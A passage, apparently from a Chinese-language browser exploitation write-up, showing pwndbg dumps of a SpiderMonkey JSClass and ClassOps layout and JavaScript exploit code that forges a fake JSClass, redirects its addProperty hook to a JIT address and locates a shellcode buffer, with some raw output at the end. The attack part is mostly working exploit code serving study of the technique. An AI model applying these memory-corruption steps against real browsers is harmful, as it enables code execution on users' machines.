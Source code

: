 ```
pwndbg&gt; x/20gx 0x00007fffed1f2240
                //name                //flags
0x7fffed1f2240: 0x00007fffeb12daff      0x000000005d000402
                //cOps
0x7fffed1f2250: 0x00007fffed1f24c0      0x00007fffed1f26b0
0x7fffed1f2260: 0x00007fffed1f2238      0x0000000000000000
0x7fffed1f2270: 0x00007fffeb52bbcd      0x000000005c000000
//..
pwndbg&gt; x/20gx 0x00007fffed1f24c0
                //addProperty
0x7fffed1f24c0: 0x0000000000000000      0x0000000000000000
0x7fffed1f24d0: 0x0000000000000000      0x0000000000000000
0x7fffed1f24e0: 0x0000000000000000      0x0000000000000000
0x7fffed1f24f0: 0x00007fffea567390      0x0000000000000000
0x7fffed1f2500: 0x0000000000000000      0x0000000000000000
0x7fffed1f2510: 0x00007fffea5673f0      0x0000000000000000
```

实现部分代码如下, 参考前面的内存布局

```
//group_addr == 0x0000160cb7b59a30
            // group_jsclass == 0x00007fffed1f2240 
            group_jsclass = readptr(group_addr);
                print("group_jsclass "+hex(group_jsclass));
                fake_jsclass_array = new ArrayBuffer(0x30);
                fake_cops_array = new ArrayBuffer(0x60);
                shellcode = new Uint8Array(0x1000);

                fake_jsclass_addr = addrof(fake_jsclass_array)+0x40;
                fake_cops_addr = addrof(fake_cops_array) + 0x40;


                fake_jsclass = new Float64Array(fake_jsclass_array);
                fake_cops = new Float64Array(fake_cops_array);
                // 完整拷贝一份 classp_ 的内容
                fake_jsclass[0]=i2f(readptr(group_jsclass+0x0));//name
                fake_jsclass[1]=i2f(readptr(group_jsclass+0x8));//flags
                fake_jsclass[2]=i2f(readptr(group_jsclass+0x10));//cOps
                fake_jsclass[3]=i2f(readptr(group_jsclass+0x18));//spec
                fake_jsclass[4]=i2f(readptr(group_jsclass+0x20));//ext
                fake_jsclass[5]=i2f(readptr(group_jsclass+0x28));//oOps
                print("fake jsclass: "+hex(fake_jsclass_addr));
                print(fake_jsclass);

                cops_addr = f2i(fake_jsclass[2]);
                // 完整拷贝一份 ClassOps 的内容
                for(let i =0;i&lt;12;i++)`{`
                        fake_cops[i] = i2f(readptr(cops_addr+0x8*i));
                `}`
                print("fake cops: "+hex(fake_cops_addr));
                print(fake_cops);
                // cOps  --&gt; fake_cops
                fake_jsclass[2] = i2f(fake_cops_addr);
                // cOps -&gt; addProperty --&gt; jit_addr
                fake_cops[0] = i2f(jit_addr);

                shellcode_obj_addr = addrof(shellcode) ;
                shellcode_addr = readptr(shellcode_obj_addr+0x38) ;
                print(hex(shellcode_obj_addr));
                print(hex(shellcode_addr));
                // group_addr  --&gt; fake_jsclass
              write64(group_addr,fake_jsclass_addr);
```


[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96